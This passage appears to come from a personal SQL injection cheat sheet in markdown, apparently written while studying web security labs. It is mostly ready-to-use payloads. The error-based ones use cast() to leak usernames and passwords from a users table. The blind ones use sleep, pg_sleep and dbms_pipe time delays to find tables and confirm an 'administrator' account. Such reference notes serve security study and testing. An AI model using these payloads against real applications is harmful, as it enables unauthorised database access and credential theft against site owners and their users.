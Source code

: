    * Specifically the "cast" command enables us to convert one data type to another.  Attempting to convert a String data type to an Integer will cause an error.


```
' and 1=cast((select 1) as int)--
```

```
' and 1=cast((select username from users) as int)--
```

```
' and 1=cast((select username from users limit 1) as int)--
```

```
' and 1=cast((select password from users limit 1) as int)--
```

<br><br><br>

#### SQLi Blind Time Delays Examples

* Encode:

    * ;   ->   %3b


* Identify if any of the below payloads cause a time delay on the application's response.  Portswigger has a cheat sheet that has more:


    * '||(select dbms_pipe.receive_message(('a'),10) from dual)||'


    * '%3b select sleep(10)--


    * '%3b select pg_sleep(10)--


<br>

* **Payload to enumerate valid tables in the database.**  In this example if the <u>table users does exist</u> then the application will sleep, if it doesn't exist then the application should respond normally:

```
'%3b select case when (1=1) then pg_sleep(10) else null end from users-- 
```


* **Payloads to identify if a user called administrator exists on the table called users:**

```
'%3b select case when (username='administrator') then pg_sleep(10) else pg_sleep(0) end from users--
```
```
'%3b select case when ((select 'TEST' from users where username='administrator')='TEST') then pg_sleep(10) else null end--
```

